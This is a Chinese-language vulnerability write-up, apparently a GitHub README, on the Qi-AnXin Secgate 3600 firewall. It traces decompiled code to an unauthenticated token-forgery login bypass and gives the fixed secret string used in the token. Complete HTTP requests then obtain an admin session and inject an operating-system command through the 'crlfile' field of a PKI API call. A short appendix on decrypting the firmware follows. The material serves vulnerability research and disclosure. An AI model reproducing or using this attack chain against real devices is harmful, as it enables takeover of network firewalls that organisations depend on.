# Secgate_3600_RCE

> 奇安信网神Secgate3600防火墙认证绕过+RCE

## 由于镜像从咸鱼获取，这个镜像和固件的可靠性不确定，所以我们并不能确定该漏洞是属于厂商问题还是被其他人植入的后门！！！！！！！！！(新版本已修复)

## version

> 测试的版本为hw6.1.13.122100

## 描述

> 未授权的用户可以通过/auth接口免密认证,并使用后台的RCE达到,未授权RCE效果。

## 漏洞成因

### 免密登录

我们先来看web路由规则

```php
'URL_ROUTE_RULES' => array(
    'data' => 'Home/Api/index',//检查了toke
    'config' => 'Home/Config/index',//检查了toke
    'decrypt_config' => 'Home/Config/index',//检查了token
    'verify' => 'Home/Login/verify',//生成验证码
    'login_submit' => 'Home/Login/login_submit',//登录，一样调用的User->login
    'login' => 'Home/Login/index',//语言设置，浏览器版本检查。
    'login/:lang' => 'Home/Login/index',//语言设置没有什么参数可控
    'modify' => 'Home/Login/modify',//更改密码,需要老密码和新密码,过滤的挺好
    'out' => 'Home/Login/out',//由于调用send_mgd函数一样会检查是否存在token
    'upload' => 'Home/Upload/index',//上传，检查了是否为POST，检查了token
    'queryUploadStatus' => 'Home/Upload/queryUploadStatus',//貌似从session中获取config_command，暂时不清楚作用
    'getDownLoad/:getDownLoad' => 'Home/Upload/download', //检查了目录，检查是否有文件，过滤了目录穿越，检查了token
    'heart' => 'Home/Login/heart',//检查了token
    'connect' => 'Home/Login/connect',//检查设备是否已经准备好了
    'WebChannel' => 'Home/Smac/channel',//和下面一个调用的一样的函数
    'auth/:token'=>'Home/Csmp/login',//存在过滤
    'auth'=>'Home/Csmp/CsmpConfig' //这里有一个注入但是过滤的非常严格
),
```

免密登录在`Home/Csmp/login` and `Home/Csmp/CsmpConfig`对应的php文件为`secgate/webui/Application/Home/Controller/CsmpController.class.php` 对应的函数分别为`CsmpConfig`和`login`,先来看Csmpconfig函数。



可以看到在接收到一系列的参数后拼接并成为了`$config`变量调并用了php_call_admin函数,可以看到我在后面的注释,确实过滤的挺好的反正我拿这个过滤没什么办法,我们继续规进php_call_admin函数,这个函数在`libsg_sc.so`库中。

```C++
      iVar2 = sso_input_is_valid(in_buf);//就是这里存在对参数的检查和过滤
      if (iVar2 == 0) {
        puVar6 = (undefined8 *)malloc(0x14);
        if (puVar6 != (undefined8 *)0x0) {
          *puVar6 = 0x61645f7475706e69;
          puVar6[1] = 0x6c61766e695f6174;
          *(undefined2 *)(puVar6 + 2) = 0x6469;
          *(undefined *)((long)puVar6 + 0x12) = 0;
          goto LAB_0013c4eb;
        }
      }
      else {
        puVar6 = (undefined8 *)cmd_lms_sso_check_sign;
        for (lVar7 = 0x100; lVar7 != 0; lVar7 = lVar7 + -1) {
          *puVar6 = 0;
          puVar6 = puVar6 + (ulong)bVar24 * -2 + 1;
        }
        snprintf(cmd_lms_sso_check_sign,0x7ff,"echo in_buf[%s,%s] > /tmp/lms_sso_test",
                 "php_call_admin",in_buf);
        system(cmd_lms_sso_check_sign);
        sg_admin_auth_user_ex_csmp_check_sign_get_token(in_buf,&csmp_result);//核心函数
        puVar6 = (undefined8 *)cmd_lms_sso_check_sign;
        for (lVar7 = 0x100; lVar7 != 0; lVar7 = lVar7 + -1) {
          *puVar6 = 0;
          puVar6 = puVar6 + (ulong)bVar24 * -2 + 1;
        }
        snprintf(cmd_lms_sso_check_sign,0x7ff,"echo result[%s,%d,%s] >> /tmp/lms_sso_test",
                 "php_call_admin",(ulong)(uint)csmp_result.result,csmp_result.data);
        system(cmd_lms_sso_check_sign);
```
对危险函数敏感的师傅一眼就那看到大量的system函数,没错这些执行命令非常诱人但是`sso_input_is_valid`函数的出现让我无可奈何,进入转发函数`sg_admin_auth_user_ex_csmp_check_sign_get_token`看看转发到哪里。
```C++
  strncpy((char *)puVar3,in_buf,0x800);
  puVar12 = (undefined8 *)cmd_lms_sso_check_sign;
  for (lVar6 = 0x100; lVar6 != 0; lVar6 = lVar6 + -1) {
    *puVar12 = 0;
    puVar12 = puVar12 + (ulong)bVar17 * -2 + 1;
  }
  snprintf(cmd_lms_sso_check_sign,0x7ff,"echo in_buf[%s,%s] >> /tmp/lms_sso_test",
           "sg_admin_auth_user_ex_csmp_check_sign_get_token",puVar3);
  system(cmd_lms_sso_check_sign);
  rcv_len = 0;
  local_1050 = (uint *)0x0;
  if (result != (admin_csmp_check_sign_get_token_res *)0x0) {
    uVar2 = sg_ipc_send_and_recv(0,0x14,3,puVar3,0x800,&local_1050,&rcv_len);
    puVar12 = (undefined8 *)cmd_lms_sso_check_sign_1;
    for (lVar6 = 0x100; lVar6 != 0; lVar6 = lVar6 + -1) {
      *puVar12 = 0;
      puVar12 = puVar12 + (ulong)bVar17 * -2 + 1;
    }
    snprintf(cmd_lms_sso_check_sign_1,0x7ff,"echo send[%s,%s,%d] >> /tmp/lms_sso_test",
             "send_auth_msg_to_admind_check_sign_get_token",puVar3);
    system(cmd_lms_sso_check_sign_1);
```
这里先说一下这个转发,每一个程序会使用`sg_ipc_init`函数初始化,并由`sg_ipc_register`函数注册对应的函数`sg_ipc_send_and_recv(0,0x14,3,puVar3,0x800,&local_1050,&rcv_len);`就是使用`sg_ipc_ini(0x14)`和`sg_ipc_register(3,function)`的目标程序,我们全局搜索调用`sg_ipc_ini`函数的程序最终`admind`符合我们的要求。
```C++

undefined8 FUN_00403f00(void)

{
  long lVar1;
  undefined8 uVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  _DAT_0061dd90 = event_init();
  if (_DAT_0061dd90 == 0) {
    uVar2 = 0xffffffff;
  }
  else {
    sg_ipc_init(0x14);
    uVar2 = 0;
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar2;
  }
  __stack_chk_fail();
}

undefined8 FUN_00402d10(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  sg_dbg_init_ex(2);
  __cp_log_init(2);
  mgd_shm_cfg_init_ex();
  FUN_00403e20();
  daemon(0,0);
  set_oom_adj(0xfffffff0);
  FUN_00403f00();
  sg_ipc_register(3,FUN_00410fb0);
  sg_ipc_register(0,FUN_00411120);
  sg_ipc_register(1,FUN_004112e0);
  sg_ipc_register(2,FUN_00415260);
  sg_ipc_register_system(4,FUN_00411fc0);
  vsys_notify_init();
  sg_attack_class_info_init(2);
  sg_threat_type_info_init(2);
  FUN_00403f60();
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
  __stack_chk_fail();
}
```

进入`FUN_00410fb0`函数
```C++

undefined8 FUN_00410fb0(undefined8 param_1,undefined8 param_2,long param_3,undefined8 param_4)

{
  char *pcVar1;
  char *__s;
  undefined8 uVar2;
  char **in_FS_OFFSET;
  
  pcVar1 = in_FS_OFFSET[5];
  if (((__sg_dbg_state != (int *)0x0) && (*__sg_dbg_state != 0)) &&
     (*(char *)(__sg_dbg_state + 0xa86) != '\0')) {
    __s = *in_FS_OFFSET;
    snprintf(__s,0x2800,"*** func[%s], str[%s] ***\n","admin_process_csmp_check_sign",param_1);
    sg_dbg_write(0,0x54,0,__s);
  }
  if (param_3 == 0) {
    /*...*/
  }
  else if (pcVar1 == in_FS_OFFSET[5]) {
    uVar2 = FUN_00412e30(param_3,param_4,param_1);//处理数据
    return uVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
继续跟进`FUN_00412e30`,在这个函数中对数据进行处理，数据格式是下面这个样子。
```
X-Timestamp=1743977367#X-Authorization=Token#username=username#role_id=role_id#lms_ip=ipaddr#lms_port=port#client_id=client_id#uuid=uuid#
```



`FUN_00412e30`函数，简单说就是使用`strstr`和`strchr`去提取数据，并使用`snprintf`拼接



然后生成`access_token`并且写入lms_sso_last_csmp_token文件，的作用我们一会就会知道。
```C++
snprintf((char *)local_1a48,0x1ff,"%s%ld",
          PTR_s_5678471853609579508_0061dcf8,tVar5);
puVar22 = local_848;
for (lVar10 = 0x100; lVar10 != 0; lVar10 = lVar10 + -1) {
  *puVar22 = 0;
  puVar22 = puVar22 + (ulong)bVar25 * -2 + 1;
}
snprintf((char *)local_848,0x7ff,
          "echo lms_sso_last_csmp_token_src=%s > /tmp/lms_sso_last_csmp_token"
          ,local_1a48);
system((char *)local_848);
/*...*/
SHA1((uchar *)local_1a48,
      (long)puVar19 +
      ((-3 - (ulong)CARRY1((byte)uVar4,(byte)uVar4)) -
      (long)local_1a48),(uchar *)&local_2048);
puVar16 = &local_1fb8;
do {
  bVar17 = *(byte *)puVar22;
  puVar22 = (undefined8 *)((long)puVar22 + 1);
  sprintf((char *)puVar16,"%02x",(ulong)bVar17);
  uVar26 = (undefined4)((ulong)client_id >> 0x20);
  puVar16 = (undefined8 *)((long)puVar16 + 2);
} while (puVar22 != &local_2034);
client_id = local_848;
for (lVar10 = 0x100; lVar10 != 0; lVar10 = lVar10 + -1) {
  *client_id = 0;
  client_id = client_id + (ulong)bVar25 * -2 + 1;
}
snprintf((char *)local_848,0x7ff,
          "echo lms_sso_last_csmp_token_str=%s >> /tmp/lms_sso_last_csmp_token"
          ,&local_1fb8);
system((char *)local_848);
```
那么这个获取`access_token`的逻辑就是,对用户提供的数据进行拼接组成一个新的字符串,使用sha1函数生成哈希值,并且对比用户提供的`X-Authorization`值
```bash
username=admin&lms_ip=127.0.0.1&lms_port=80&client_id=123&uuid=45617439773675678471853609579508
#这里主要来说一下uuid，45617439773675678471853609579508, 前三位是我们传的uuid的456,然后是我们的时间戳10位,至于5678471853609579508伪代码中是一个固定的数字字符串
```

然后是login函数



先看看是如何初化数据的吧
```php
private $config = array(
    'current_vsys_name' => 'root-vsys', // 当前vsys
    'target_vsys_name' => 'root-vsys', // 目标 vays
    'from' => 'webui', //来源
    'user' => 'admin', //用户名
    'language' => 'CN', //语言
    'sessionid' => '0', //默认为 0 初次登录没生成设备session
    'function' => 'admin_login', //默认为登录模块方法
    'module' => 'admin', //默认为登录模块名称
    'type' => 1, //登录方式 默认webui登录  1-webui，2-smac，3-csmp，4-）
    'is_admin_priv' => true, // 登录成功是否取权限列表 默认取权限
);
private $comment = array();
private $error = '';
private $response_list = array();

/**
 * 构造方法，用于构造用户实例 生成 命令
 * @param array $config 用户配置
 * @param array $comment_config 命令配置
 */
public function __construct($config = array(), $comment_config = array())
{
    /* 获取用户配置 */
    $this->config = array_merge($this->config, $config);//合并数组
    /* 默认下发命令配置 */
    $this->comment = array(
        'admin_auth' => array(
            'addr' => $this->get_client_ipaddr(),
            'type' => $this->getSSL(),
            'port' => $_SERVER['SERVER_PORT'],
            'haddr' => $_SERVER['SERVER_ADDR'],
        ),
    );
    $this->comment['admin_auth'] = array_merge($this->comment['admin_auth'], $comment_config);//合并数组
}
```

跟进入`$User->login();`函数


`create_command`函数转换为json数据

```php
private function create_command($command = array())
{
    extract($this->config);
    //Log::write($command['admin_auth']['password']);
    $command_data = ngfw_json_encode($command, true);
    //Log::write($command_data);
    if (empty($command)) {
        $command_data = ngfw_json_encode($this->comment, true);
    }
    $login_command = <<<EOT
{"request_list":{"head":{"current_vsys_name":"{$current_vsys_name}","target_vsys_name":"{$target_vsys_name}","from":"{$from}","user":"{$user}","language":"{$language}","sessionid":{$sessionid}},"body":{"request":[{"head":{"function":"{$function}","module":"{$module}"},"body":{$command_data}}]}}}
EOT;
    return $login_command;
}
```

最后转换后的json数据应该是下面这个样子的

```json
{
    "request_list": {
        "head": {
            "current_vsys_name": "root-vsys",
            "target_vsys_name": "root-vsys",
            "from": "webui",
            "user": "admin",
            "language": "CN",
            "sessionid": 0
        },
        "body": {
            "request": [
                {
                    "head": {
                        "function": "admin_login",
                        "module": "admin"
                    },
                    "body": {
                        "admin_auth": {
                            "addr": "192.168.199.1",
                            "type": "HTTPS",
                            "port": 80,
                            "haddr": "127.0.0.1",
                            "name": "*username",
                            "password": "1234",
                            "username": "Csmp",
                            "access_token": "*token",
                            "lms_ip": "",
                            "lms_port": "",
                            "client_id": "",
                            "uuid": "",
                            "signature": "",
                            "timestamp": ""
                        }
                    }
                }
            ]
        }
    }
}
```

然后调用`Normal_login`函数处理登录

```php
private function Normal_login($login_command, $type = 1)
{
    switch ($type) {
        //正常登录 Csmp 登录
        case 1:
            $res = php_call_admin($login_command);//这里的过滤和CsmpConfig一样
            break;
        //smac 登录
        case 2:
            //Log::write('php_smac_call_admin');
            $res = php_smac_call_admin($login_command);
            break;
    }
    return $res;
}
```
可以看到和前面一样调用的是`php_call_admin`函数，让我们回到这个函数




当我们满足access_token等于文件中保存的token,和name不为空时, 调用`sg_admin_auth_user_csmp_no_password`函数,我们跟进这个函数



继续跟进`sg_admin_auth_user_ex_csmp_no_password`函数


同样将数据进行了转发,我们找到对应的处理函数`FUN_00404630`(需要跟很多函数所以我们直接来看关键点，FUN_004100c0->FUN_0040f1b0->FUN_00404ff0->FUN_00404630)


而这里最重要的是` auth_param_handle_set_param(local_2050,5,"admindb",username,password);`的设置我们可以在libsg_sc.so中找到

```C++

int auth_param_handle_set_param
              (auth_param_handle *auth_handle,int auth_type,char *server,char *user,char *password)

{
  long lVar1;
  int iVar2;
  size_t sVar3;
  size_t sVar4;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  if ((auth_handle == (auth_param_handle *)0x0) || (server == (char *)0x0)) {
    iVar2 = 5;
  }
  else {
    iVar2 = 5;
    if (user != (char *)0x0) {
      sVar3 = strlen(server);
      if (0xfb < sVar3) {
        sVar3 = 0xfb;
      }
      memcpy(auth_handle->authsrv_name,server,sVar3);
      auth_handle->authsrv_name[sVar3] = '\0';
      sVar3 = strlen(user);
      if (0xfb < sVar3) {
        sVar3 = 0xfb;
      }
      memcpy(auth_handle->username,user,sVar3);
      auth_handle->username[sVar3] = '\0';
      if (password != (char *)0x0) {
        sVar4 = strlen(password);
        sVar3 = 0xfb;
        if (sVar4 < 0xfc) {
          sVar3 = sVar4;
        }
        memcpy(auth_handle->password,password,sVar3);
        auth_handle->password[sVar3] = '\0';
      }
      auth_handle->auth_type = auth_type; //设置auth_type为5
      iVar2 = 0;
    }
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return iVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
这里最重要的是将`auth_type`设置为5, 接下来使用`admin_user_auth_csmp_no_password`函数转发到authd程序中



authd会根据`auth_handle->authsrv_name`的不同,调用对应的函数,我们这一次的例子中是admindb



这个回调函数的注册是在FUN_00406d70中


这个call_back_func是我自己命名的



进入到0x0040c7d0



进入到对应的函数我们可以看到当auth_type等于5时候是不需要调用`local_db_auth_check`函数检查密码的

### 免密登录的总结

1. 请求POST请求/auth获取`access_token`

```https
POST /auth HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=cei44sqaq2ok0gnni1rkpej6r2
Content-Length: 66
X-Timestamp: 1743977367
X-Authorization: 7d97a37478ae581af1190ce13bec50aee905ae30
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Origin: https://xxx.xxx.xxx.xxx:xxxx
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://xxx.xxx.xxx.xxx:xxxx/login.html?lang=zh_cn
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Priority: u=1, i
Connection: keep-alive

username=admin&lms_ip=127.0.0.1&lms_port=80&client_id=123&uuid=456
```

2. 使用获取的`access_token`让Cookie生效

```https
GET /auth/8f5c7ead63a92dda3c5a8c2854faed592d682ef5?token=8f5c7ead63a92dda3c5a8c2854faed592d682ef5 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=cei44sqaq2ok0gnni1rkpej6r2
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Sec-Ch-Ua-Mobile: ?0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://xxx.xxx.xxx.xxx:xxxx/login.html?lang=zh_cn
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Priority: u=0, i
Connection: keep-alive
```

3. 然后通过访问根路径来获取我们的Token,当我们携带有效的Cookie访问时会返回Token,这样我们就能够去访问后台的api接口了。

```html
    <meta id="token" name="__hash__" content="XXXXXXXXX" />
```

### 后台RCE

后台的RCE,挑了一个没有过滤和其他影响的，所以我们快速来看一下吧。

回到上面生成的登录json数据,其他的后台接口都会使用差不多的逻辑,比如我们注入的接口,包括我们在请求包中看到的其他接口都是类似的

```json
{
    "head":{
        "module":"pki",
        "function":"set_pki_trust_auth"
    },
    "body":{
        "pki_auth_cp":{
            "name":"",
            "crlfile":""
        }
    }
}
```

请求路径是/data.html,可以在路由规则中找到相应的处理文件ApiController.class.php

```php
    public function index()
    {
        if(!IS_AJAX || !token_check($_SERVER['HTTP_TOKEN'])){
            send_http_status('403');
            return;
        }
        $Post_Data = $GLOBALS['HTTP_RAW_POST_DATA'];
        $Post_Header_Data = create_header($Post_Data);
        $mgd_res = php_call_mgd($Post_Header_Data);
        $mgd_arr = json_decode($mgd_res, true);
```
这里是调用了php_call_mgd, 我使用了更加简单和传统的方法就是搜索字符串,还是拿上面的json数据,我们搜索`set_pki_trust_auth`字符串,会在libsg_sc.so中找到一个结构体




还是搜索pki_op_func,我们最后会在libsg_cmdlib.so找到调用



是否记得刚才那个结构体我们char上还有一个int,这个int就是我们的type,我们的漏洞函数的type是0x2B,在这些if else中最符合的就是`mgd_pki_auth_cfg`函数


进入`mgd_pki_auth_cfg`函数



红色就是我们的命令注入,选择它的原因也是不管怎样它都会去执行这个删除命令。

至于数据解析需要进入我们的`sg_pki_auth_cp_j2s`函数负责解析这个函数的数据,解析数据的函数在libsg_cfg.so


我们的crlfile值保存在0x180的位置,正好符合mgd_pki_auth_cfg的调用


### RCE总结

我们的注入点在crlfile,直接不提供name就可以注入。

```https
POST /data.html HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=6tjn05tfnpjti1pgm0083b49a0
Content-Length: 199
Sec-Ch-Ua-Platform: "macOS"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/json; charset=UTF-8
Token: xxxxxxxxxx
Referer: https://xxx.xxx.xxx.xxx:xxxx/login


[
    {
        "head": {
            "function": "set_pki_trust_auth",
            "module": "pki",
            "page_index": 1,
            "page_size": 20
        },
        "body": {
            "pki_auth_cp": {
                "name": "",
                "crlfile": "command injection"
            }
        }
    }
]
```

## 漏洞分析END

[exp](https://)

### 番外篇固件解密

我从镜像中提取到的固件是`hw6.1.13.122100.sign`

```bash
sudo chroot . ./qemu-x86_64-static ./secgatefile/secgate/bin/sg_sign -C -i ./hw6.1.13.122100.sign -o ./hw6tmp.tgz -c ./secgatefile/secgate/etc/conf/cert/system.crt 
```

script/update.sh脚本中`unsignsystempackage`函数

```sh
SG_SIGN=/secgate/bin/sg_sign
SG_CRT=/secgate/etc/conf/cert/system.crt
function unsignsystempackage
{
	ERR=0
	cd $path
	$SG_SIGN -C -i $image -o tmp.tgz -c $SG_CRT
	if [ $? -ne 0 ]; then
		echo "unsign package failed"
		ERR=$UNSIGN_PACKAGE_FAILED
		exit $ERR
	fi

	tar -zxf tmp.tgz
	if [ $? -ne 0 ]; then
		echo "uncompress package failed"
		ERR=$UNCOMPRESS_FAILED
		exit $ERR
	fi
	rm tmp.tgz -f

	exit $ERR
}
```